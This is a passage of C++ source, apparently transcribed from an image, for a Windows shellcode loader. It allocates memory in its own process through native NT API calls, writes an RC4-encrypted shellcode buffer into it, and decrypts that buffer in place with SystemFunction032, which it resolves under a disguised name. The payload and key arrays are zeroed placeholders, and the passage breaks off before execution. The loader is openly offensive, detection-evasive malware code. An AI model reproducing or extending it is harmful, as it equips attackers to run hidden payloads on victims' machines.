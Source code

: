 ```cpp
    fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA(a_dll_name), NotSysFunc32);

    STATUS = SystemFunction032(&Img, &Key);
    if (STATUS != 0x0) {
        return FALSE;
    }
    return TRUE;
}

int main() {
    HANDLE processHandle;
    CLIENT_ID clientId;
    clientId.UniqueProcess = reinterpret_cast<HANDLE>(GetCurrentProcessId());
    clientId.UniqueThread = 0;

    OBJECT_ATTRIBUTES objAttr;
    InitializeObjectAttributes(&objAttr, NULL, 0, NULL, NULL);

    NTSTATUS status = NtOpenProcess(&processHandle, PROCESS_ALL_ACCESS, &objAttr, &clientId);
    if (status != 0) {
        std::cerr << "NtOpenProcess failed: " << std::hex << status << std::endl;
        return 1;
    }

    PVOID baseAddress = NULL;
    SIZE_T regionSize = 1;
    status = NtAllocateVirtualMemory(processHandle, &baseAddress, 0, &regionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed: " << std::hex << status << std::endl;
        NtClose(processHandle);
        return 1;
    }

    unsigned char shellcode[] = {
    0x00, 0x00, 0x0, 0x00, 0x00, 0x00, 0x00, 0x00

    };

    unsigned char Key[] = {
    0x00, 0x00, 0x0, 0x00, 0x00, 0x00, 0x00, 0x00
    };



	DWORD SIZEKEY = sizeof(Key);
    DWORD SIZEPAY = sizeof(shellcode);

    SIZE_T writtenBytes = 0;
    status = NtWriteVirtualMemory(processHandle, baseAddress, shellcode, sizeof(shellcode), &writtenBytes);
    if (status != 0) {
        std::cerr << "NtWriteVirtualMemory failed: " << std::hex << status << std::endl;
        NtFreeVirtualMemory(processHandle, &baseAddress, &regionSize, MEM_RELEASE);
        NtClose(processHandle);
        return 1;
    }

	BOOL DECRYPT = RC4DEC(Key, static_cast<PBYTE>(baseAddress), SIZEKEY, SIZEPAY);

    ULONG oldProtect = 0;
```